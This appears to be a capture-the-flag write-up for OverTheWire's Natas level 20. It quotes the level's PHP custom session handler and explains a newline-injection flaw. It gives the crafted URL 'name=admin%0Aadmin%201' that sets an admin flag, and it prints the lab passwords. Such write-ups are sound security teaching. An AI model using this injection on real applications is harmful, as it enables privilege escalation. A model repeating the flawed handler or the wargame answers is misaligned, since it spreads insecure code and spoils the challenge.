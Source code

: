 ```yaml
---
title: Wargames - Natas 20
published: true 
tags: natas
---
```


## [Level 20](https://overthewire.org/wargames/natas/natas20.html)

Username: natas20
Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF
Lab URL: http://natas20.natas.labs.overthewire.org/

Firstly we should be most interested in source code, let's get a closer look.

This part sets handers to manage session:
```
session_set_save_handler(
    "myopen", // not interesting
    "myclose", // not interesting
    "myread", // interesing
    "mywrite", // interesing
    "mydestroy", // not interesting
    "mygarbage" // not interesting
    );
```

This function set custom handers to process session data. More about it is ![here](https://www.php.net/manual/en/function.session-set-save-handler.php).

I remove all not interesting code from php code:
```
<?
function myread($sid) { 
    debug("MYREAD $sid"); 
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID"); 
        return "";
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    if(!file_exists($filename)) {
        debug("Session file doesn't exist");
        return "";
    }
    debug("Reading from ". $filename);
    $data = file_get_contents($filename);
    $_SESSION = array();
    foreach(explode("\n", $data) as $line) {
        debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
    }
    return session_encode();
}

function mywrite($sid, $data) { 
    // $data contains the serialized version of $_SESSION
    // but our encoding is better
    debug("MYWRITE $sid $data"); 
    // make sure the sid is alnum only!!
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID"); 
        return;
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    $data = "";
    debug("Saving in ". $filename);
    ksort($_SESSION);
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n"; // This line is very interesting 
    }
    file_put_contents($filename, $data);
    chmod($filename, 0600);
}

session_set_save_handler(
    "myread", 
    "mywrite", 
);
?> 
```

There is possibility to inject own code, by submitting:
```
http://natas20.natas.labs.overthewire.org/index.php?name=admin%0Aadmin%201
```

we obtain password.

password: IFekPyrQXftziDEsUr3x21sYuahypdgJ